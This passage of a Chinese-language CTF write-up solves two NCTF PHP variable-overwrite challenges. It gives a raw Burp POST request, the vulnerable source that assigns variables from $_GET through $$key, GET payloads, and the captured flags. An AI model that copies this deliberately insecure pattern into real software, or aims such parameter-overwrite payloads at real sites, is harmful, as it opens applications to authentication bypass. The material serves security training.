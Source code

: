 假设用户构造以下链接：http://www.a.com/test1.php?auth=1

则站点会输出“private！”

所以playload是：（burp suite数据包）

```
POST /web18/ HTTP/1.1
Host: chinalover.sinaapp.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:72.0) Gecko/20100101 Firefox/72.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 24
Origin: http://chinalover.sinaapp.com
Connection: close
Referer: http://chinalover.sinaapp.com/web18/index.php
Upgrade-Insecure-Requests: 1

pass=1&thepassword_123=1
```

nctf{bian_liang_fu_gai!}

 

 

 

### [变量覆盖2](http://chinalover.sinaapp.com/web24/)

考点：遍历初始化变量导致变量覆盖

题目源码：

```
<!--
foreach($_GET as $key => $value){  
        $$key = $value;  
}  
if($name == "meizijiu233"){
    echo $flag;
}
-->
```

（详见本站“[变量覆盖漏洞学习笔记](http://wh1sper.com/变量覆盖漏洞学习笔记/)”）

playload:

```
chinalover.sinaapp.com/web24/?name=meizijiu233
```

nctf{AD3FBD8D5928693CA499347C91570AE6}

 

 